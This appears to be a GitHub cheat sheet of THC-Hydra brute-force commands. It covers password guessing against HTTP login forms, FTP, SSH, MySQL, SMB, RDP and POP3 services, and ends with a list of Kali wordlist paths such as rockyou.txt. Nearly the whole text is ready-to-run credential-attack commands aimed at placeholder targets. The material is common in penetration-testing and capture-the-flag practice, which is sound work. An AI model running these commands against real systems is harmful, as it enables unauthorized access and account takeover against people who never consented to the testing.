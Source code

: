 # Brute Force THCHydra

## HTTP Post Web Form

$ hydra -L user-lst.txt -P /usr/share/wordlists/rockyou.txt Target_IP http-post-form "/Login Page:Request Body:Error Message"

$ hydra -l admin -P /usr/share/wordlists/rockyou.txt http://example.com:8080  http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V

$ hydra -l molly -P /usr/share/wordlists/rockyou.txt Target_IP http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect."

$ hydra -l admin -P /usr/share/wordlists/rockyou.txt Target_IP http-post-form "/admin/:user=^USER^&pass=^PASS^:Username or password invalid"

$ hydra -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP http-post-form "/login.php:username=^USER^&password=^PASS^:Login Failed"

## FTP

$ hydra -f -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP ftp

$ hydra -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP -s 12021 ftp

$ hydra -L /full/path_to/user-name-list.txt -P /full/path_to/passwd-list.txt ftp://url-name.co

## SSH

$ hydra -f -l user_name -P /usr/share/wordlists/rockyou.txt Target_IP ssh

$ hydra -f -l user_name -P /usr/share/wordlists/rockyou.txt Target_IP -s 2222 ssh

$ hydra -l user_name -P /usr/share/wordlists/rockyou.txt Target_IP -t 4 ssh

$ hydra -L /full/path_to/user-name-list.txt -P /full/path_to/passwd-list.txt ssh://url-name.co:2222

## MySQL

$ hydra -f -l user -P /usr/share/wordlists/rockyou.txt Target_IP -t 4 mysql

## SMB

$ hydra -f -l user -P /usr/share/wordlists/rockyou.txt Target_IP -t 4 smb

## RDP

$ hydra -f -l username -P /usr/share/wordlists/rockyou.txt Target_IP -t 4 rdp

$ hydra -l username -P /usr/share/wordlists/rockyou.txt Target_IP -s 53389 rdp

$ hydra -L /full/path_to/user-name-list.txt -P /full/path_to/passwd-list.txt -t 4 -W 3 rdp://url-name.co:33389/

## POP3

$ hydra -f -l user-name -P /usr/share/wordlists/fasttrack.txt Target_IP pop3

$ hydra -l user-name -P /usr/share/wordlists/fasttrack.txt Target_IP -s 10110 pop3

## Dir Kali Passwords Wordlists

/usr/share/wordlists/rockyou.txt

/usr/share/wordlists/fasttrack.txt

/usr/share/wordlists/john.lst

/usr/share/wordlists/nmap.lst

/usr/share/wordlists/legion

## Links

Fonte: https://www.stationx.net/how-to-use-hydra

Fonte: https://www.kali.org/tools/hydra

Fonte: https://github.com/vanhauser-thc/thc-hydra

